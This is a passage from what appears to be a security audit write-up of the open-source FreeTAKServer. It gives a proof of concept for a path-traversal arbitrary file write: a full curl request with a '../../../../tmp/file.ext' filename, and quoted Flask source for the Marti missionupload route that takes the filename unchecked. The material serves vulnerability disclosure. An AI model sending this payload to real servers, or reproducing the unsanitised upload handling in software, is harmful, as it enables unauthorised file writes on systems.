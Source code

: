 ###### Proof Of Concept

Request through Burpsuite:  
![Burpsuite Request](assets/images/posts/2022/02/securityaudit-of-an-open-source-project-takserver/arbitrary-file-write_webui_request.jpg) 

File on system:  
![File on system](assets/images/posts/2022/02/securityaudit-of-an-open-source-project-takserver/arbitrary-file-write_webui_tmp-file.jpg)  
(Note that the webserver is at that moment run as root, _Not Recommended_)

Bash equivalent PoC:  
```bash
curl -i -s -k -X POST -H 'Host: atak.FreeTAKServer.com:19023' -H 'Authorization: Bearer ValidRestAPIToken' -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOUUxfHjKyflBjjhn' -H 'Accept-Encoding: gzip, deflate' --data-binary '------WebKitFormBoundaryOUUxfHjKyflBjjhn\x0d\x0aContent-Disposition: form-data; name=\"assetfile\"; filename=\"test.ext\"\x0d\x0aContent-Type: text/plain\x0d\x0a\x0d\x0aThisIs FromDataPackageTable\x0d\x0a\x0d\x0a------WebKitFormBoundaryOUUxfHjKyflBjjhn--\x0d\x0a' 'http://atak.FreeTAKServer.com:19023/DataPackageTable?filename=../../../../../../../../tmp/file.ext&creator='
```

##### End User Device MissionUpload

Every End User Device also has the ability to upload files and Datapackages for sharing and consumption elsewhere, this is done through a Marti API that is specific to the EUDs. Although the Marti API is just another RestAPI that is used in the applications but can be abused over the `TCP/8080` or the SSL equivalent (Given a valid user certificate) `TCP/8443`.

The difference between the WebUI way and the Marti way is that it does not add junk at the end of the file, as the EUDs are responsible for creating valid DataPackages. 

Function [Sourcecode](https://github.com/FreeTAKTeam/FreeTakServer/blob/2fc5089c431abcf2e4bce0f4030ad22222444ef4/FreeTAKServer/controllers/services/DataPackageServer.py#L155):
```python
@app.route('/Marti/sync/missionupload', methods=[const.POST])
def upload():
  from FreeTAKServer.model.ServiceObjects.SSLDataPackageVariables import SSLDataPackageVariables
  logger.info('dataoackage upload started')
  file_hash = request.args.get('hash')
  app.logger.info(f"Data Package hash = {str(file_hash)}")
  letters = string.ascii_letters
  uid = ''.join(random.choice(letters) for i in range(4))
  uid = 'uid-' + str(uid)
  filename = request.args.get('filename')
  creatorUid = request.args.get('creatorUid')
```
